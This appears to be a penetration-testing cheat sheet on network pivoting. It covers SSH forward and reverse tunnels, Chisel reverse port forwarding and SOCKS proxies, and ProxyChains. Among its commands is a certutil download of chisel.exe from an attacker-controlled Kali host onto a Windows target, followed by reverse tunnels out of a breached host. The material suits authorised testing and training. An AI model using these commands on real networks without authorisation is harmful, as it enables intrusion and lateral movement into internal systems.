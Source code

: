## 1. SSH Tunnels

### 1.1. Useful options to use with SSH tunnels

|Options|Description|
|---|---|
|`bind_address`|`0.0.0.0` means bind to all interfaces; defaults to `lo` loopback interface (`127.0.0.1`) if not specified|
|`-f`|Requests ssh to go to background just before command execution|
|`-N`|Do not execute a remote command. This is useful for just forwarding ports (protocol version 2 only).|
|`-o UserKnownHostsFile=/dev/null`|Pipe the host key to `/dev/null` i.e. do not record host key|
|`-o StrictHostKeyChecking=no`|Automatically add host key to host file (which is piped to `/dev/null` in above option|
|`-i /tmp/id_ecdsa`|Use identity file at `/tmp/id_ecdsa`|

### 1.2. Forward tunnels

**Forward**: direction of SSH connection is **same** as direction of access

#### 1.2.1. Forward static tunnel

##### Syntax

```sh
ssh -L [bind_address:]port:host:hostport [user@]hostname
```

##### Example

![image](/images/ssh-forward-static.png)

```sh
ssh -L 0.0.0.0:13306:10.0.2.91:3306 -L 0.0.0.0:13389:10.0.2.91:3389 user@10.0.1.81
```

#### 1.2.2. Forward dynamic tunnel (a.k.a. forward SOCKS proxy)

##### Syntax

```sh
ssh -D [bind_address:]port [user@]hostname
```

##### Example

![image](/images/ssh-forward-dynamic.png)

```sh
ssh -D 0.0.0.0:1080 user@10.0.1.81
```

### 1.3. Reverse Tunnels

**Reverse**: direction of SSH connection is **reverse** of direction of access

> [!Tip]
> 
> ##### For remote port forwarding:
> 
> - By default, the listening socket on the server can only bind to the `lo` loopback interface (`127.0.0.1`)
> - Set `GatewayPorts yes` in the server's `sshd_config` to enable binding to other interfaces
>
> ```sh
> sed -i 's/#GatewayPorts no/GatewayPorts yes/' /etc/ssh/sshd_config
> ```

#### 1.3.1. Reverse static tunnel

##### Syntax

```sh
ssh -R [bind_address:]port:host:hostport [user@]hostname
```

##### Example

![image](/images/ssh-reverse-static.png)

```sh
ssh -R 0.0.0.0:13306:10.0.2.91:3306 -R 0.0.0.0:13389:10.0.2.91:3389 user@192.168.2.61
```

#### 1.3.2. Reverse dynamic tunnel (a.k.a. reverse SOCKS proxy)

##### Syntax

```sh
ssh -R [bind_addr:]port [user@]hostname
```

##### Example

![image](/images/ssh-reverse-dynamic.png)

```sh
Example: ssh -R 0.0.0.0:1080 user@192.168.2.61
```

## 2. Chisel tunnels

> [!Tip]
>
> [Chisel](https://github.com/jpillora/chisel) is useful for Windows targets that does not have SSH

### 2.1. Preparing chisel binaries

Prepare server on Kali:

```sh
curl -LO https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_linux_amd64.gz
gzip -d chisel_1.7.7_linux_amd64.gz
mv chisel_1.7.7_linux_amd64 chisel
chmod +x chisel
```

Prepare client binaries for Windows target to download

```sh
curl -LO https://github.com/jpillora/chisel/releases/download/v1.7.7/chisel_1.7.7_windows_amd64.gz
gzip -d chisel_1.7.7_windows_amd64.gz
mv chisel_1.7.7_windows_amd64 /var/www/html/chisel.exe
```

Download client binaries on Windows target

```sh
certutil.exe -urlcache -f -split http://kali.vx/chisel.exe %TEMP%\chisel.exe
```

### 2.2. Chisel server configuration

##### Syntax

```sh
chisel server --reverse --port <port>
```

##### Example

```sh
chisel server --reverse --port 8080
```

### 2.3. Chisel Client configuration

#### 2.3.1. Reverse port forwarding

##### Syntax

```sh
chisel client <server> [R:[server-port]:[target-address]:[target-port]]
```

##### Example

![image](/images/chisel-reverse.png)

```sh
chisel client 192.168.2.61:8080 R:13306:10.0.2.91:3306 R:13389:10.0.2.91:3389
```

#### 2.3.2. Reverse SOCKS proxy

##### Syntax

```sh
chisel client <server> R:socks
```

##### Example

![image](/images/chisel-reverse-socks.png)

```sh
chisel client 192.168.2.61:8080 R:0.0.0.0:socks
```

## 3. ProxyChains

- Consider the reverse dynamic tunnel:
  - The accessing client `192.168.1.51` does not have a route to the `10.0.2.0/24` network
  - The initial breach to the host `10.0.1.81` managed to establish a reverse dynamic tunnel and now have a SOCKS proxy on `192.168.2.61:1080`
- ProxyChains can be used to chain any commands on the accessing client to use the SOCK proxy
- Edit the ProxyChains configuration file at `/etc/proxychains4.conf`

```sh
vi /etc/proxychains4.conf
```

- The default ProxyList configuration sets to "tor"

```sh
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
socks4  127.0.0.1 9050
```

- Replace the proxy configuration to the SOCKS proxy created in 2.2.

```sh
[ProxyList]
# add proxy here ...
# meanwile
# defaults set to "tor"
# socks4  127.0.0.1 9050
socks5  192.168.2.61 1080
```

- Prepend commands targeted for `10.0.2.0/24` with `proxychains`

```sh
proxychains -q nmap -Pn -sT -A 10.0.2.0/24
```

> [!Note]
> 
> ProxyChains only work for TCP traffic, i.e. ICMP and SYN scans will not work over Proxy Chains
>
> ☝️ nmap scan will actually be crawlingly slow, try to use the pivot box to scan instead
